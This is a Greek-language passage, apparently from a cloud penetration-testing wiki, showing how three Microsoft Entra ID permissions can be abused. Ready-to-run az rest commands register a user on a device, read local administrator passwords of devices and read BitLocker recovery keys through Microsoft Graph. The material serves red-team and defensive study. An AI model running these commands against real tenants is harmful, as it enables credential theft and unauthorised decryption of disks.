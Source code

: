 Αυτή η άδεια επιτρέπει στους επιτιθέμενους να συσχετίσουν τον λογαριασμό τους με συσκευές για να αποκτήσουν πρόσβαση ή να παρακάμψουν τις πολιτικές ασφαλείας.
```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/devices/$deviceId/registeredUsers/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```
### `microsoft.directory/deviceLocalCredentials/password/read`

Αυτή η άδεια επιτρέπει στους επιτιθέμενους να διαβάσουν τις ιδιότητες των αποθηκευμένων διαπιστευτηρίων τοπικού διαχειριστή για συσκευές που είναι συνδεδεμένες με το Microsoft Entra, συμπεριλαμβανομένου του κωδικού πρόσβασης

{% code overflow="wrap" %}
```bash
# List deviceLocalCredentials
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials"

# Get credentials
deviceLC="<deviceLCID>"
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials/$deviceLCID?\$select=credentials" \
```
{% endcode %}

## BitlockerKeys

### `microsoft.directory/bitlockerKeys/key/read`

Αυτή η άδεια επιτρέπει την πρόσβαση σε κλειδιά BitLocker, τα οποία θα μπορούσαν να επιτρέψουν σε έναν επιτιθέμενο να αποκρυπτογραφήσει δίσκους, θέτοντας σε κίνδυνο την εμπιστευτικότητα των δεδομένων.

{% code overflow="wrap" %}
```bash
# List recovery keys
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/informationProtection/bitlocker/recoveryKeys"

# Get key
recoveryKeyId="<recoveryKeyId>"
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/informationProtection/bitlocker/recoveryKeys/$recoveryKeyId?\$select=key"
```
{% endcode %}

## Άλλες Ενδιαφέρουσες άδειες (TODO)
